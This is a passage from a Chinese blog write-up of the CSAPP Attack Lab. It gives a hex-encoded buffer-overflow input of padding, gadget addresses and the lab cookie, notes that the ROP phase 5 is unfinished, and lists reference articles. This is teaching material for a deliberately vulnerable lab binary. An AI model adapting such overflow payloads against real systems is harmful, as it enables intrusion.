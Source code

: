 最后得到输入串：

{%spoiler 示例代码%}
```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
{%endspoiler%}

攻击效果：

![image-20220814203244469](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220814203251.png)

### ROP(phase 5)

（暂未完成）

## 参考文章

[attacklab.pdf](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

[Introduction to CSAPP（二十）：这可能是你能找到的最具捷径的attacklab了](https://zhuanlan.zhihu.com/p/104340864)

[CSAPP：Attack Lab —— 缓冲区溢出攻击实验](https://blog.csdn.net/qq_36894564/article/details/72863319)

[64位linux系统：栈溢出+ret2libc ROP attack](https://www.superweb999.com/article/1005924.html)

[缓冲区溢出：攻防对抗](https://github.com/YuZhang/Security-Courseware/blob/master/buffer-overflow/buffer-overflow-3.md)

[rop链攻击原理与思路(x86/x64)](https://bbs.pediy.com/thread-257238.htm)